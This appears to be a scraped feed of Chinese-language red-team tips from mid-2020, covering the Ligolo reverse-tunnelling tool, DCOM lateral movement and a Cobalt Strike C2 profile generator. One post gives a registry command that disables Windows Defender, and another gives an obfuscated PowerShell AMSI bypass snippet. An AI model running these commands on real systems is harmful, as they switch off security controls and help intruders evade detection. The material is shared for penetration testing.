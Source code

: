 # RedTeaming - 2020-06-30
一个小工具<br><br>Ligolo : Reverse Tunneling made easy for pentesters, by pentesters<br><br>Ligolo is a simple and lightweight tool for establishing SOCKS5 or TCP tunnels from a reverse connection in complete safety (TLS certificate with elliptical curve).<br><br>It is comparable to Meterpreter with Autoroute + Socks4a, but more stable and faster.<br><br><br>[GitHub+-+sysdream/ligolo:+Reverse+Tunneling+made+e...](https://github.com/sysdream/ligolo)
![](https://images.zsxq.com/FtNZ8Bk-7cEC7oQASyOu4TrhEdCF?imageMogr2/auto-orient/thumbnail/800x/blur/1x0/quality/75&e=1612108799&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:Z2T3sZd1Al6JqYBrYxa8do-xhQQ=)
![](https://images.zsxq.com/FtHov-qnJX3QDun807l8kdLoOM-G?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1612108799&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:eceP8JFcb0iHXutLk-6uKhbpN6o=)

# RedTeaming - 2020-06-30
websocket测试网站<br><br>[websocket.org+Echo+Test+-+Powered+by+Kaazing](http://websocket.org/echo.html)
![](https://images.zsxq.com/FkAgHNDGTeepSVXw-GYHCZQmL8pi?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1612108799&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:xAf3hx_W4N1akXh2iQ-708etWO8=)

# RedTeaming - 2020-07-01
`#横向移动#` <br>DCOM+HTA进行横向，我测试只能在本地成功，远程主机一直是失败，有师傅来踩踩坑看看？<br>另外就是DCOM的横向有个是通过Excel进行攻击，但是需要x86进程。<br>[https://codewhitesec.blogspot.com/2018/07/lethalht...](https://codewhitesec.blogspot.com/2018/07/lethalhta.html)
![](https://images.zsxq.com/FiT5OyjSUV-f-59SK3vP0hAfPJWY?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1612108799&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:oNtU8lPKYLjTY6p98B-8RY0sLFY=)
![](https://images.zsxq.com/FgwbYELJaxMC84uXGDbJRfEfDRD8?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1612108799&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:hUa5CqlEKiUdJdQcv7YHsGIhE4w=)
![](https://images.zsxq.com/FrKin7alvXTwRvsH9WfwEgM3eq6x?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1612108799&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:tbNzSN790R1TfXr26pwW_pxoU4s=)

# RedTeaming - 2020-07-01
 `#CSTips#`  <br>WebUI下自动化生成C2Profiles<br>╰─ docker run --rm -d -p 3000:80 --name c2profilejs hattmo/c2profilejs:latest
![](https://images.zsxq.com/Fh3lwrw-4hevZXY0FhF94XQ0qN0p?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1612108799&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:s7NQm5CrgwKTaqDqRq3vnl3gtrI=)

# RedTeaming - 2020-07-01
通过组策略关闭 Windows Defender：reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /d 1 /t REG_DWORD<br><br> 转自车王的星球


# RedTeaming - 2020-07-02
$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')<br>$h="4456625220575263174452554847"<br>$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "<br>$b =$a.GetField($s,'NonPublic,Static')<br>$b.SetValue($null,$true)<br><br>效果看图<br><br> `#bypassAV#`   `#ASMI#` 
![](https://images.zsxq.com/Fi_8nCz-8x7HLori5I4oMM84uGUo?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1612108799&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:O93viMlv51JFAf1ACEKulwLl3Ss=)
```
crazyman: amsi wldp evt 都要考虑啊
-: 今天刚好在推上看见
```
# RedTeaming - 2020-07-02
在Kali Linux中使用PowerShell脚本进行渗透测试。<br><br> `#渗透技巧#`  <br><br>[PowerShell+for+Pentesting+in+Kali+Linux+|+Offensiv...](https://www.offensive-security.com/offsec/kali-linux-powershell-pentesting/)
